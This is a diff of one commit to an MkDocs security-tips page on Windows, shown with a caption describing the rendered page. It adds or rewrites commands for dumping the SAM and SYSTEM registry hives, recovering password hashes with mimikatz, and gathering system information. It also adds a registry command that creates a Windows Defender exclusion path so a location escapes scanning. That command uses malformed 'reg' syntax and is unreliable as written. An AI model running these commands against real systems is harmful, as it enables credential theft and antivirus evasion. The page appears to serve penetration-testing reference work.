

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/windows.md, in a window 1280 px wide and 1400 px high, scrolled down 8187 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add tips on Windows

````diff
--- a/docs/windows.md
+++ b/docs/windows.md
@@ -224,14 +224,21 @@ sqldumper.exe <PID> 0 0x01100:40
 ```
 
 ### SAM and SYSTEM backup
-```bash
-$ reg save HKLM\SYSTEM SystemBkup.hiv
-$ reg save HKLM\SAM SamBkup.hiv
+
+You can dump the hives from a running Windows machine with the `reg` command:
+
+```powershell
+reg save HKLM\SYSTEM SystemBkup.hiv
+reg save HKLM\SAM SamBkup.hiv
 ```
 
-Then with `mimikatz` you can recover the hashes:
-```bash
-$ lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv
+On the hard-drive, the files are stored in `C:\Windows\System32\config`. Even
+`nt authority\system` cannot copy those files.
+
+With `mimikatz` you can recover the hashes:
+
+```powershell
+lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv
 ```
 
 
@@ -412,3 +419,37 @@ cached files of the process in the two directories:
 %USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content
 %USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\MetaData
 ```
+
+
+## System information
+
+### Get system information
+
+The command `systeminfo` lists the information about the system: Hostname,
+OS version, System type, Domain, Hotfixs, network cards, ...
+
+Also, you can read the log files from `%WINDIR%\inf` to get basic info:
+
+```batch
+type %WINDIR%\inf\setupapi.setup.log
+
+[Device Install Log]
+     OS Version = 10.0.19041
+     Service Pack = 0.0
+     Suite = 0x0100
+     ProductType = 1
+     Architecture = amd64
+...
+```
+
+
+## Windows Defender
+
+### Check Defender exclusion path
+
+The registry node `HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths`
+contains the exclusions paths. You can add your own to prevent scanning:
+
+```powershell
+reg ADD "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths" /f /t "C:\Path\To\Exclude" /d 0
+```
````
